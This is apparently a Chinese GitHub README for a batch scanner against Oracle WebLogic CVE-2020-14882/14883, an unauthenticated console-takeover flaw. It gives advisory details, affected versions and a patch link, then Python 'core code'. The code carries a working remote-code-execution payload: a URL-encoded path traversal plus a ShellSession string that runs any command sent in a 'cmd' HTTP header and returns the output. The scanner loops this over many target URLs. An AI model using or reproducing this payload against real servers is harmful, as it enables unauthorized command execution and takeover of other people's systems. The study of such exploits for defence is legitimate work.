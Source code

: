 # cve-2020-14882-weblogic越权绕过登录RCE批量检测


漏洞详情

未经身份验证的远程攻击者可通过构造特殊的 HTTP GET 请求，结合 CVE-2020-14883 漏洞进行利用，利用此漏洞可在未经身份验证的情况下直接接管 WebLogic Server Console ，并执行任意代码，利用门槛低，漏洞等级高危。

影响版本

Oracle WebLogic Server，版本10.3.6.0，12.1.3.0，12.2.1.3，12.2.1.4，14.1.1.0。

漏洞地址

/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=AppDeploymentsControlPage&handle=com.bea.console.handles.JMXHandle%28%22com.bea%3AName%3Dbase_domain%2CType%3DDomain%22%29

修复建议

安装官方最新补丁进行升级：

https://www.oracle.com/security-alerts/cpuapr2020.html

批量检测

备注：遵守网络安全法，只给出核心代码，其中调试的时候遇到一个坑，服务器返回无法解析，需要调用python3里面的http_vsn_str用http1.0格式发包才能解决


```python
import http.client
http.client.HTTPConnection._http_vsn = 10
http.client.HTTPConnection._http_vsn_str = 'HTTP/1.0'
headers={'Connection':'close',
'cmd':'echo 666'
}
payloads = [r"""/console/css/%25%32%65%25%32%65%25%32%66consolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession('weblogic.work.ExecuteThread currentThread = (weblogic.work.ExecuteThread)Thread.currentThread(); weblogic.work.WorkAdapter adapter = currentThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField("connectionHandler");field.setAccessible(true);Object obj = field.get(adapter);weblogic.servlet.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getHeader("cmd");String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};if(cmd != null ){ String result = new java.util.Scanner(new java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter("\\A").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod("getResponse").invoke(req);res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();} currentThread.interrupt();')"""]
def http_request(url):
    try:
        print("Trying:" + url + ' ' + '[' + str(left) + '/' + str(countLines) + ']')
        for payload in payloads:
            try:
                vulurl = url + payload
                print(vulurl)
                r = requests.get(url=vulurl, headers=headers, timeout=10, verify= False)
                print(r.text)
                if r.status_code == 200 and '666' in r.text:
                    print("\033[1;40;32m[Vuln] {}\033[0m".format(vulurl))
                    print(r.text)
                    with open(path_out,'a') as f:
                        f.write(vulurl + '\n')
                        return
                else:
                    print("[-]" + "r.status_code:" + str(r.status_code) + "," + "raise.text:" + r.text)
            except Exception as err:
                print(err)
    except Exception as err:
        print(err)
```

via：六六